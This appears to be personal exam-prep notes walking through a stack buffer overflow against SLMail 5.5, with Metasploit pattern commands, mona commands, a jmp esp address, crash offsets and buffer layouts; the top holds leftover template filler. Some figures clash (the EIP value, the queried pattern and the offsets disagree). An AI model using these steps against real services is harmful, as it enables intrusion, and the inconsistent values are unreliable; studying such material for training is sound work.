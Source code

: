 # index

Note 1

`method is new`

_bold_ **bold** _**bold**_

```python
s = "Python syntax highlighting"
print s
```

**As Grace Hopper said:**

> I’ve always been more interested in the future than in the past.

[https://github.com/hyperreality/OSCP-Buffer-Overflow-in-30-minutes](https://github.com/hyperreality/OSCP-Buffer-Overflow-in-30-minutes) [https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow) \(SLMail 5.5\) using jmp esp at 5f4a358f man asci i

## 1. Find bytes needed to crash service

```text
use python module: exam01.py
Note: bytes = 3000
```

## 2. Pattern create for finding exact spot

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pc 3000
```

### use python module: exam02.py

Note: EIP = 6E42366E

1. Pattern\_offset - Find Offset of EIP in Buffer

   /usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l 3000 -q 39694438

   !mona po  e.g. 6E42366E

   Note: exact match at offset = 1189

3b. Verify Verify exact location of EIP - \[\*\] Exact match at offset 1189 buffer = "A" \* 1189 + "B" \* 4 + "C" \* 90 Total = 3000, where slmail crashed

use python module: exam03.py !mona suggest

3c. Determine max buffer use python module: 3-jk\_poc02.py Send an extra large buffer buffer = "A"  _2606 + "B"_  4 + "C" \* \(3500 – 2606 - 4\) Note: 429 bytes free

